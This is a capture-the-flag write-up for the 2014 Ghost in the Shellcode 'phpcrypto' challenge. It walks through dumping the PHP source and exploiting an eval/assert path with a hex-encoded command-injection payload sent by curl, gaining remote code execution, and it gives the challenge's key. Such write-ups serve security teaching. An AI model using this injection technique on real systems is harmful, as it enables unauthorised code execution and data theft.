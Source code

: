 # Ghost in the Shellcode 2014: phpcrypto

**Category:** Recon
**Points:** 100
**Description:**

> GitS Presents [PHPCrypto 0.000001](http://phpcrypto.2014.ghostintheshellcode.com/)

## Write-up

The HTML source code of the linked page contains the following:

```js
function encrypt()
{
  key = $("#key")[0].value;
  plaintexthex = toHex($("#plaintext")[0].value);
  function success(data) {$("#ciphertext")[0].value = $.parseJSON(data).returnValue;}
  $.post('crypto.php', {"function":"customCrypto", "key":key, "plaintexthex":plaintexthex}, success );
}

function decrypt()
{
  key = $("#key")[0].value;
  ciphertext = $("#ciphertext")[0].value;
  function success(data) {$("#plaintext")[0].value = toAscii($.parseJSON(data).returnValue);}
  $.post('crypto.php', {"function":"customCrypto", "key":key, "plaintexthex":ciphertext}, success );
}
```

So, for encoding and decoding, a POST request is made to `/crypto.php` with the name of the function (`customCrypto`), the entered key, and the hexadecimal representation of the input text (for encoding) or the ciphertext (for decoding).

There’s also this comment:

```js
/*
TODO: add support for "help" and "dump" functions
*/
```

When using the `dump` function, the server returns an HTML document containing the syntax-highlighted source code of [the PHP script](https://github.com/ctfs/write-ups/blob/master/ghost-in-the-shellcode-2014/phpcrypto/source.php):

```bash
$ curl http://phpcrypto.2014.ghostintheshellcode.com/crypto.php --data 'function=dump' > source.html
```

In some cases [the `customCrypto` function](https://github.com/ctfs/write-ups/blob/af43d4f482f869c9c3ba5a0c0bd88e57adf0f39e/ghost-in-the-shellcode-2014/phpcrypto/source.php#L68-L130) ends up in a code path where [`assert()`](http://php.net/assert) is executed:

```php
assert("\$message = \"ERROR! xorKey is: \".strlen(\$xorKey).\" bytes long and the plaintext is: \".strlen($plaintext).\" bytes long.\";");
```

`assert` is like `eval`, except it terminates script execution if the result is `false`. To get there, we need to pass the string `'true'` as the value for the third argument (`$DEBUG`).

That is possible because of this code:

```php
$params = $_POST;
unset($params['function']);

$param_string='';
foreach($params as $key=>$param)
{
    $param = preg_replace('/[^A-Za-z0-9]/','',$param);
    $param_string.=(($param_string)?',':'')."'".$param."'";
}

if (isset($DEBUG) && $DEBUG == "true") { error_log($_POST['function']."($param_string);"); }
eval("echo ".$_POST['function']."($param_string);");
```

All we need to do is use `DEBUG=true` (or `x=true` — the key doesn’t really matter) as the third key/value pair in the POST data, not counting the `function` parameter. This enables remote code execution:

```bash
$ echo -n '").system("ls");//' | xxd -p # will be used as the value for `plaintexthex`
22292e73797374656d28226c7322293b2f2f

$ curl http://phpcrypto.2014.ghostintheshellcode.com/crypto.php --data 'function=customCrypto&key=a&plaintexthex=22292e73797374656d28226c7322293b2f2f&DEBUG=true'
crypto.php
index.php
jquery-1.8.0.min.js
key
{"errorMsg":"The key is: ; and the plaintext is: key","returnValue":"1912154842484f5e56131957481912001414"}
```

Aha! There’s a file named `key`. Let’s see what it says:

```bash
$ curl http://phpcrypto.2014.ghostintheshellcode.com/key
ThisWasAStupidTestKeyThatBecameARealBoy
```

## Other write-ups and resources

* <http://tasteless.se/2014/01/gits-2014-phpcrypto-recon-100/>
